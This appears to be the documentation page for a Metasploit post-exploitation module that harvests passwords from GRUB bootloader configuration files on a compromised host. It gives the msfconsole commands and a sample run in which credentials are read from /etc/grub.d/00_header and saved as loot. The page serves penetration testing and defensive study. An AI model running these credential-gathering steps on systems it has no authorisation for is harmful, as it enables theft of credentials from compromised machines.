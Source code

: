 ## Vulnerable Application

  This post-exploitation module will gather passwords from GRUB bootloader config files.

## Verification Steps

  1. Start `msfconsole`
  2. Get shell/meterpreter session
  3. Do: `use post/multi/gather/grub_password`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. The gathered passwords will be printed to the console and saved to the database. You should be able to see the extracted `grub.config` file in the loot files

## Options

  - **SESSION** - The session to run the module on.

## Scenarios

  Typical run against Ubuntu 16.04 LTS

  ```
  msf exploit(handler) > use post/multi/gather/grub_password 
  msf post(grub_password) > set SESSION 1
  SESSION => 1
  msf post(grub_password) > run

  [*] Searching for GRUB config files..
  [*] Reading /boot/grub/grub.cfg
  [*] No passwords found in GRUB config file: /boot/grub/grub.cfg
  [+] /boot/grub/grub.cfg saved to /home/user/.msf4/loot/20190217212515_default_172.25.14.160_grub.config_675306.txt
  [*] Reading /etc/grub.d/00_header
  [*] Found password: password John foo
  [+] Saved credentials
  [+] /etc/grub.d/00_header saved to /home/user/.msf4/loot/20190217212517_default_172.25.14.160_grub.config_259839.txt
  [*] Post module execution completed
  ```
